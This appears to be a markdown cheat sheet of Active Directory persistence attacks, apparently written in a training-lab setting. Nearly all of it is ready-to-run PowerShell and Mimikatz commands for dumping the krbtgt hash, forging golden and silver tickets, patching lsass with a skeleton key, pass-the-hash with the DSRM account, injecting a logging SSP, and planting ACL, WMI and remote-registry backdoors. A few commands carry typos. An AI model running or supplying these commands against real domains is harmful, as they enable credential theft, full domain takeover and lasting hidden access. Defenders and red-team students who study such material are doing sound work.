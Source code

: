## Persistence on Active Directory 

### **Get `krbtgt` Hash**
```powershell
# On DC as a DA
C:> Invoke-Mimikatz -Command '"lsadump:lsa /patch"'

# DC-Sync attack. DA rights required
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user_<domain>\krbtgt"'
```
### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
```
### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
- Following steps need to be done in a DC session with DA rights
```powershell
# 1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

# (OPTIONAL) 2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

# 3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
# 4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# 5. Pass the hash. FQDS domain and NTLM Hash obtained for Administrator in step 1.
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### ACL Persistence

##### SDPROP and AdminSDHolder

  AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.
Once you have agained Domain Admin privileges, AdminSDHolder container can be abused by backdooring it by giving your user GenericAll privileges, which effectively makes that user a Domain Admin.
```powershell
#`sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
# With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
# Load Module
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
##### Domain Root Object ACL
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
##### DCSync
```powershell
# Check if a user has DCSync rights. Gives nothing if no rights and
C:> Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student76 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

##### WMI Security Descriptors

```powershell
# To be able to run WMI commands
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemoteWMI -SamAccountName <username> -ComputerName <hostname_full_FQDN> -namespace 'root\cimv2' -Verbose
```
```powershell
# Give permissions to be able to PS Remoting
# UNSTABLE SINCE SOME M$ PATCHES
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemotePSRemoting –SamAccountName <username> -ComputerName <hostname_full_FQDN> -Verbose

# Now can run WMI on host
C:> gwmi -class win32_operatingsystem -ComputerName <host>
```
##### Remote Registry
```powershell
# Using RACE, with admin privs on remote machine
C:> Add-RemoteRegBackdoor -ComputerName <hostname> -Trustee <username> -Verbose

# From a shell as <username>, not DA rights
# As <username> from before, retrieve machine account hash:
C:> Get-RemoteMachineAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve local account hash:
C:> Get-RemoteLocalAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve domain cached credentials:
C:> Get-RemoteCachedCredential -ComputerName <hostname> -Verbose

# With this machine account hash can create Silver Tickets
C:> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_fqdn> /sid:<domain_sid> /target:<hostname_fqdn> /service:HOST /rc4:<host_hash> /user:Administrator /ptt"'
```
### MORE





